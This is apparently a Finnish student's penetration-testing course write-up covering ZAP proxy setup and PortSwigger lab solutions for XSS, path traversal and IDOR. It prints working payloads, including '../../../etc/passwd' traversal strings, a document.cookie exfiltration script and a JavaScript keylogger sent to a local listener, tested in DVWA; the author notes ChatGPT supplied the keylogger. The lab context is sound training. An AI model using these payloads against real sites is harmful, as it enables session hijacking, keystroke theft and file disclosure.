<!--- metadata

title: H3 - Täysin Laillinen Sertifikaatti
date: 2025-09-05
slug:
id: ICI005AS3A-3005
week: Week 36
summary: Käytiin läpi OWASP Top 10 -haavoittuvuuksia (XSS, IDOR, path traversal), testattiin hyökkäyksiä PortSwigger Labsissa ja asennettiin ZAP sekä FoxyProxy. Opittiin hyökkäysten toiminta ja puolustuskeinoja käytännön esimerkein.
tags: [ "ICI005AS3A-3005", "Tunkeutumistestaus"]

--->

## x) Lue/katso ja tiivistä. (Tässä x-alakohdassa ei tarvitse tehdä testejä tietokoneella, vain lukeminen tai kuunteleminen ja tiivistelmä riittää. Tiivistämiseen riittää muutama ranskalainen viiva kustakin artikkelista - ei pitkiä esseitä. Kannattaa lisätä myös jokin oma ajatus, idea, huomio tai kysymys.)

## - OWASP 2021: OWASP Top 10:2021, [A01:2021 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/) (IDOR ja path traversal ovat osa tätä)

## - PortSwigget Academy: [Insecure direct object references (IDOR)](https://portswigger.net/web-security/access-control/idor), [Path traversal](https://portswigger.net/web-security/file-path-traversal), [Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)

- OWASP top 10 Broken access control selitti, miten kyseinen haavoittuvuus toimii, kuinka yleinen se on, miten sen voi estää ja joitakin esimerkkejä.

- IDOR avattiin miten se on yksi access controllin ala haavoittuvuuksista ja toimii lähinnä vaakasuuntaisena oikeuksien eskalaationa. Tähän törmänny itekki muutamilla sivuilla et selkeesti yleinen, ja vaarallinen jos sivuilla on myös ei julkista tietoa.

- Erittäin hyvin ja yksityiskohtasesti selitetty miten `path treversal` hyökkäys toimii käytännössä ja miten se teoriassa toimii. On myös avattu ongelma tilanteet ja mitä sillon voi kokeilla. Kerrottiin myös miten tältä hyökkäykseltä pystyy puolustautumaan.

- Cross-site scripting osiossa käytiin yleiset XSS haavoittuvuudet ja hyökkäykset läpi, miten ne toimii, mihin niitä käytetään ja kuinka kriittisiä ne on eri tilanteissa. Esiteltiin myös CSP ja `dangling markup injection`. Lopuksi annetaan vinkkejä miten korjata XSS haavoittuvuuksia.

---

## a) Totally Legit Sertificate. Asenna OWASP ZAP, generoi CA-sertifikaatti ja asenna se selaimeesi. Laita ZAP proxyksi selaimeesi. Laita ZAP sieppaamaan myös kuvat, niitä tarvitaan tämän kerran kotitehtävissä. Osoita, että hakupyynnöt ilmestyvät ZAP:n käyttöliittymään. (Ei toimine localhost:lla ilman Foxyproxya)

Asensin zaproxy nimisen työkalun komennolla `sudo apt-get install zaproxy` jonka jälkeen käynnistin sen komennolla `zaproxy`. Tämän jälkeen menin `tools` kohtaan ja valitsin sieltä options, minkä jälkeen hain hakukentästä `Certificate`.





Näiden jälkeen loin uuden sertifikaation, tallensin sen ja lisäsin sen firefox hakukoneessa oletus sertifikaatiksi. Sitten vaan lisäsin zap proxy osoitteen 127.0.0.1:8080 firefox network asetuksiin jotta se menis sen kautta aina ja homma saatiin pyörimään.





Otin vielä lopuksi myös kuvat käyttöön.



---

## b) Kettumaista. Asenna "FoxyProxy Standard" Firefox Addon, ja lisää ZAP proxyksi siihen. Käytä FoxyProxyn "Patterns" -toimintoa, niin että vain valitsemasi weppisivut ohjataan Proxyyn. (Läksyssä ohjataan varmaankin PortSwigger Labs ja localhost.)

Eli ihan ensimmäisenä kun olin saanut asennettua FoxyProxyn, tein sinne uuden proxyn ja lisäsin sinne tarvittavat tiedot ja sivut joita halusin seurata tässä tehtävässä. Jostain syystä tämä proxy ei toiminut firefox selaimessa halutulla tavalla niin kokeilin chromium selainta ja siinä toimi ilman ongelmia. Kaikki asetukset olivat täysin samoja, mutta en jäänyt selvittämään tätä pidemmäksi aikaa.



Sitten vain valittiin proxy painikkeesta `Proxy by Patterns` ja proxy rupesi ohjaamaan liikennettä halutulla tavalla. Tänne lisäsin portswiggerin kuitenkin vain testi mielessä ja poistin sen patternin seuraavassa tehtävässä ja lisäsin sinne vain tarvittavien tehtävien url osoitteet.

---

## PortSwigger Labs. Ratkaise tehtävät. Selitä ratkaisusi: mitä palvelimella tapahtuu, mitä eri osat tekevät, miten hyökkäys löytyi, mistä vika johtuu. Kannattaa käyttää ZAPia, vaikka malliratkaisut käyttävät harjoitusten tekijän maksullista ohjelmaa. Monet tehtävät voi ratkaista myös pelkällä selaimella. Malliratkaisun kopioiminen ZAP:n tai selaimeen ei ole vastaus tehtävään, vaan ratkaisu ja haavoittuvuuden etsiminen on selitettävä ja perusteltava

## 1. Cross Site Scripting (XSS)

## c) [Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

Tehtävä oli yksinkertainen, tehtävänannossa mainittiin että `search` elementissä on reflected XSS haavoittuvuus ja sen pystyy ratakisemaan `alert()` funktion avulla.

Näin siis kirjotin vain hakukenttään `<script>alert=('This is a XSS vuln')</script>` ja painoin `search` nappia. Tämä ajoi koodin ja näin sain tehtävän ratkaistua. Tämä koodi pätkä oli ennestään vain tuttu ja oli myöskin esitelty aineoisto materjaalissa.

Vika johtuu siitä että input tietoa ei sanitoida mitenkään ennen ku se annetaan eteenpäin seuraavaan funktioon.



## d) [Stored XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)

Sitten hypättiin seuraavan tehtävän kimppuun. Tässä tarkoituksena oli löyttää stored XSS haavoittuvuus blogi postauksien kommentti kentistä. Palvelin lähettää POST pyynnöllä palvelimelle kommentin. Tässä tehtävässä kokeilin erillaista payloadia. Kommenttini oli siis `&lt;script>alert(document.domain)&lt;/script>`. Tällä sain ratkaistua tehtävän.



Tämä toimii käytänössä täysin samalla tavalla kuin ensimmäisessä tehtävässäkin, mutta nyt se aktivoituu kun, ihan kuka vaan lataa kyseisen sivun ja sen mukana olevan haitallisen koodin.

[(2. PortSwigger,](https://portswigger.net/web-security/cross-site-scripting/stored) [3. PortSwigger)](https://portswigger.net/web-security/cross-site-scripting/exploiting)

## e) Selitä esimerkin avulla, mitä hyökkääjä hyötyy XSS-hyökkäyksestä. Alert("Hei Tero!") ei vielä tarjoa kummoista pääsyä. (Tässä alakohdassa ei tarvitse tehdä testejä tietokoneella, pelkkä lyhyt ja selkeä selitys riittää.)

Tässä tehtävässä rupesinkin miettimään että paljon olen nyt pyöritellyt tätä `alert()` funktiota, mutta miten tätä hyökkäystä oikeasti voi hyödyntää. Niin mitä olin lukenut aikaisemmista lähteistä niin mahdolliset hyökkäyspolut olisivat esimerkiksi keksien varastaminen, CSRF tokenin väärentäminen tai vaikka suoraan tietojen väärentäminen.

Mua kiinnosti tämä kohta aika paljon niin lähdin kokeilemaan keksien varastus menetelmää. Tässä käytin apua ChatGPT:tä ja kysyin siltä, esimerkkiä ja miten mä sitä voisin testata. Niin päädyin lataamaan semmosen palvelun kun `DVWA`. Se on tarkoitettu hyökättäväksi ja siellä voi testata erillaisia hyökkäys payloadeja, miten ne käyttäytyy eri turvallisuus tilanteiden alla.

No kun sain tämän käyntiin lähdin kokeilemaan. Ensiksi mä tein kuuntelevan palvelimen porttiin 8000 minkä mä avasin hyökkäys koneelle. Sitten käytin komentoa `&lt;script>fetch("http://127.0.0.1:8000/?" + document.cookie)&lt;/script>` minkä tallensin sivulle ja sieltähän se antoikin sitten mulle sessio keksit.

Testasin tätä vielä toisella selaimella, missä oli eri sessio keksi ja sieltä sain myös omalle hyökkäsy koneelle palautuksen. Mielenkiintoista oli että tämä hyökkäys toimi vielä `DVWA security level: high` alla myös.



Sitten koska innostuin ja mulla pyöri jo tämä palvelu pyysin ChatGPT:tä antamaan mulle keylogger koodin mikä voisi napata kaikken tekstin mitä käyttäjä kirjoittaa. Vastauksena sain tämmöisen koodin pätkän:```html
&lt;script>
document.addEventListener("keypress", function(e) {
    if (e.target.tagName === "INPUT" || e.target.tagName === "TEXTAREA") {
        new Image().src = "http://127.0.0.1:8000/?k=" + encodeURIComponent(e.key);
    }
});
&lt;/script>```

ja no sehän toimi hyvin.



Tämä oli meielstäni erittäin mielenkiintoinen, ja selkeesti tässä on mahdollisuudet rajattomat, etenkin kun näitä pystyy testaamaan DVWA palvelussa näin helposti, ilman että ketään tai mitään vahingoittaa.

---

## 2. Path Traversal

## f) [File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple) Laita tarvittaessa Zapissa kuvien sieppaus päälle

Tässä tehtävässä pitää hakea path treversal haavoittuvuutta. `../../../etc/passwd` löytyi kohde ja saatiin käyttäjätunnukset ulos järjestelmästä. Tässä tehtävässä haavoittuvuus toimii hyödhyntämällä linuxin sisäisiä komentoja eli me käytetään komentoa `..`. Tämä kertoo että me halutaan mennä taaksepäin. Tämä tekee sen kuitenkin vain kerran, ja koska meidän pitää mennä takaisin ainakin kolme kertaa niin meidän pitää käyttää välilyöntejä `/`.

Tässä haavoittuvuus löytyy `filename` parametristä mitä image URL osoite käyttää. Tässä ei siis desinfioida syötettä vaan se syötetään suoraan funktioon. Jos funkitoon tehtäsiin validaattori niin haavottovuudelta vältytätisiin.



[(4. PortSwigger)](https://portswigger.net/web-security/file-path-traversal)

## g) [File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)

Tässä tehtävässä pätee sama haavoittovuus, mutta ainoana erona on se, että tässä on estetty path treversal itsessään, mutta ei ole kuitenkaan tehty validointia, mitä saa ja mitä ei saa hakea. Näin siis pelkästään kun laitetaan samaan filename kohtaan `/etc/passwd` niin saadaan tehtävä ratkaistua.

Ja koska tehtävänannossa olikin sanottuna että tiedostoa kohdellaan niin kuin se olisi suhteessa default hakemistoon, niin voidaankin päätellä, että mikäli muita tarkistuksia ei ole, niin me voidaan hakea suoraan vaan tiedostoa, kunhan me tiedetään tarkalleen mitä hakea, niin kuin me tässä tapauksessa tiedetään.



[(4. PortSwigger)](https://portswigger.net/web-security/file-path-traversal)

## h) [File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)

Tämä tehtävä sama kuin muutkin, mutta tässä vihdoin käytetään validaattoria, vaikka huonoa sellaista. Eli validaattori poistaa kaikki `../` kohdat syötteestä ennen kun se syöttää tietoa eteenpäin. Virhe tässä kuitenkin on se että se on kova koodattu mitä tästä syötteestä poistetaan. Eli tehtävä saadaan suoritettua kuitenkin, jos me vaan lisätään tupla määrä merkkejä, eli: `....//....//....//etc/passwd`

Tässä kohtaa se siis vaan poistaa ensimmäiset 2 pistettä ja ensimmäisen kauttaviivan.



---

## 3. Insecure Direct Object Reference (IDOR)

## i) [Insecure direct object references](https://portswigger.net/web-security/access-control/lab-insecure-direct-object-references)

Tässä tehtävässä pitikin etsiä eri staattista tiedostoa ja näin saada toisen käyttäjän salasana. Hetken ajan tutkimisen jälkeen ainoa paikka mistä löytyy minkän sortin staattisia tiedostoja tai vastaavia, on ladattavat transcript tiedostot.

Kun latasin tiedoston se oli nimetty `2.txt` vaikka latasin tiedostoa ensimmäistä kertaa. Tästä siis tajusin et haavoituvuus löytyy tästä. Etsin vain Zap:ista oikean GET requestin ja vaihdoin lataus tiedoston nimeksi `1.txt` ja sieltä sitten löytyikin toisen käyttäjän salasana.





Eli salasana käyttäjälle carlos oli `6ehsji2n56zlagtmvr74`. Tässä tapahtuu IDOR haavoittuvuus sen takia koska lataus funktiossa ei ole mitään muita autentiakaatio kohtia kuten keksin varmennusta tai muutakaan CSRF varmennusta, missä tarkistettaisiin, että kuka tiedostoa yrittää ladata.

[(6. PortSwigger)](https://portswigger.net/web-security/access-control/idor)

---

## j) Vapaaehtoinen, helppo: Asenna [pencode](https://github.com/ffuf/pencode) ja muunna sillä jokin merkkijono (encode a string)

Asensin pencoden komennolla `sudo apt install golang-github-ffuf-pencode-dev`. Päätin kokeilla encodata aikasiemmasta tehtävästä saatu salasana. Siitä tuli ulos tämmöinen rimpsu. Sit varmistus mielessä halusin decodata tämän ja katsoa toimiko tämä oletetulla tavalla.





Ja se toimi juuri niinkuin kuuluikin.

[(Pencode)](https://github.com/ffuf/pencode)

---

### Lähteet

#### 1. Tero Karvinen 2025. Tunkeutumistestaus 2025 alkusyksy. Luettavissa: [[https://terokarvinen.com/tunkeutumistestaus/]] Luettu: 5.9.2025

#### 2. PortSwigger Stored XSS. Luettavissa: [[https://portswigger.net/web-security/cross-site-scripting/stored]] Luettu: 5.9.2025

#### 3. PortSwigger Exploiting cross-site scripting vulnerabilitie. Luettavissa: [[https://portswigger.net/web-security/cross-site-scripting/exploiting]] Luettu: 5.9.2025

#### 4. PortSwigger Path Treversal. Luettavissa: [[https://portswigger.net/web-security/file-path-traversal]] Luettu 5.9.2025

#### 5. Owasp A01:2021 – Broken Access Control. Luettavissa: [[https://owasp.org/Top10/A01_2021-Broken_Access_Control/]] Luettu: 5.9.2025

#### 6. PortSwigger Insecure direct object references (IDOR). Luettavissa [[https://portswigger.net/web-security/access-control/idor]] Luettu: 5.9.2025

#### 7. PortSwigger Cross-site scripting. Luettavissa: [[https://portswigger.net/web-security/cross-site-scripting]] Luettu: 5.9.2025

#### 8. Pencode fuff. Luettavissa: [[https://github.com/ffuf/pencode]] Luettu: 5.9.2025
